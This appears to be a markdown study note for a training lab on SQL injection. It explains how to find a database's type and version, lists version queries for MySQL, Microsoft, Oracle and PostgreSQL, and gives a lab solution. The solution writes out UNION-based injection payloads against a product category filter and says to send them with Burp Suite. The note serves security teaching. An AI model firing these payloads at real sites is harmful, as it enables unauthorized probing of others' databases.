

# Examining the database in SQL injection attacks
- Find the information of the database which includes:
    - The type and version of the database software.
    - The tables and columns the database contains.

# Querying the database type and version
- One can easily find the database type and version by using the following **query**:
    **For Microsoft, MySQL**
    ```
    SELECT @@version
    ```

    **For Oracle**
    ```
    SELECT * FROM v$version
    ```

    **For PostgreSQL**
    ```
    SELECT version()
    ```

- The above queries can be used in attack using `UNION` as following payload:
    ```
    ' UNION SELECT @@version --
    ```

# Lab: SQL injection attack, querying the database type and version on Oracle MySQL and Microsoft

- **Seneario** : Lab contains the vulnerability in the product category filter. Can use a `UNION` attack to retrieve the results from an injected query.
- **Given** : The lab's database is either MySQL or Microsoft.
- **To Solve** : Display the database version string.

# Solution
1. Determine the number of columns required to perform the attack using the previous null steps.
2. Find the datatype of each column.
3. Use the `UNION` attack to retrieve the database version string. The payload can be used as
    ```
    ?category=Gifts' UNION SELECT @@version, null--
    ```
4. Firing the payload in Burp Suite will solve the given lab as shown in **Figure**.
    

